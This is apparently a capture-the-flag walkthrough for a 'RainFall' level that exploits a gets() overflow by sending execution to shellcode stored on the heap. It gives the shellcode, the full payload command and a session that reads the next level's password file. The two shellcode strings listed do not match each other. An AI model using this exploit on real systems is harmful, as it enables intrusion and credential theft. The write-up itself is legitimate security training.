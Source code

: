 📘 Buffer Overflow Exploit: Level 2
This level is a classic heap-based buffer overflow challenge — unlike Level 1, the program prevents us from returning to addresses on the stack. Instead, we need to use the heap for our shellcode execution.

⚠️ Vulnerability Summary
The program uses the unsafe gets() function, which does not check input size.

The input is copied into a buffer on the stack, but a check prevents the return address from pointing to the stack (addresses starting with 0xb).

However, the input is later duplicated with strdup(), which allocates memory on the heap.

This means the shellcode can be stored in the heap, and the return address overwritten to point there — bypassing the stack restriction.

🧠 Our Goal
We want to:
1.Write shellcode as input (stored in the heap by strdup()).
2.Overwrite the saved return address on the stack to point to the heap address returned by malloc.
3.When the function returns, it jumps to our shellcode in the heap, giving us a shell.

🔎 Understanding the Program Behavior
Using ltrace, the heap address returned by strdup() is always 0x0804a008.

The vulnerable function calls gets() to read input, then strdup() to duplicate it.

We want the return address to be 0x0804a008 so it jumps to our shellcode in the heap.

🛠 Finding the Offset to EIP (Return Address)
Using gdb and a pattern of known characters:

```
level2@RainFall:~$ gdb level2
(gdb) run
Starting program: ./level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
"6Ac7"
(gdb) info register eip
eip            0x37634136       0x37634136
The pattern shows the return address is overwritten starting at offset 80 bytes.

So we need to fill 80 bytes before the return address.

💡 Crafting the Payload
Our payload layout:

Part	Size (bytes)	Description
Shellcode	21	The actual shellcode (execve("/bin/sh"))
Padding ("A")	59	Filler bytes to reach the return address
Return Address	4	Overwrite with 0x0804a008 (heap shellcode addr)

Shellcode (21 bytes):
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
https://shell-storm.org/shellcode/files/shellcode-752.html

Shellcode is raw machine instructions, which are a sequence of bytes meant to be executed in the exact order they appear.

Final Exploit Command
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit

cat /tmp/exploit - | ./level2

What Happens?
The shellcode is stored in the heap at 0x0804a008.
The return address is overwritten to jump there.
When the function returns, execution jumps to our shellcode in the heap.

Example session:
level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 XRh//shh/bin1̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
Summary
The program disallows returning to stack addresses to prevent stack shellcode.

We used the heap allocation from strdup() to store shellcode.

We overwrote the return address with the heap address to gain control.

Successfully escalated to level3.